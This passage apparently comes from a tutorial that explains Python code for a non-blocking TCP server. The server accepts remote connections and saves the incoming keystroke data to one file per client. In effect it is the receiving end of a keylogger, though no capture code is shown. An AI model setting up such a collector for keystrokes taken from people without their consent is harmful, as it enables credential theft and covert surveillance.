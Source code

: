 * Creates a TCP socket.
* Binds it to the specified IP and port.
* Starts listening for incoming connections.
* Prints listening status.
* Sets the socket to non-blocking mode.
* Registers the listening socket with the selector for read events, with `data=None` since it’s a listener socket, not a client connection.

---

5. **Accept New Connections**

```python
def accept_wrapper(sock):
    conn, addr = sock.accept()   # Accept the connection
    print(f'Accepted connection from {addr}')
    conn.setblocking(False)       # Non-blocking client socket

    filename = f'saved_keys_from_{addr[0]}_{addr[1]}.txt'
    file_handle = open(filename, 'ab')  # Open file to append bytes

    data = types.SimpleNamespace(
        addr=addr,
        inb=b'',
        outb=b'',
        file=file_handle
    )
    sel.register(conn, selectors.EVENT_READ, data=data)  # Register client socket for read
```

* Accepts a new incoming client connection.
* Prints the remote client address.
* Sets the client socket to non-blocking.
* Creates a unique file name per client connection to store the received keystroke data.
* Opens the file in append binary mode.
* Creates a namespace object to hold connection info, including the file handle.
* Registers the client socket with the selector for reading incoming data.

---

6. **Handle Client Data Reception**

```python
def service_connection(key, mask):
    sock = key.fileobj
    data = key.data
    try:
        if mask & selectors.EVENT_READ:
            recv_data = sock.recv(1024)  # Read up to 1024 bytes
            if recv_data:
                data.file.write(recv_data)  # Write bytes to file
                data.file.flush()           # Ensure data is written immediately
            else:
                # No data means the client closed connection
                print(f'Closing connection to {data.addr}')
                sel.unregister(sock)
                sock.close()
                data.file.close()
    except Exception as e:
        print(f"Error with {data.addr}: {e}")
        sel.unregister(sock)
        sock.close()
        data.file.close()
```
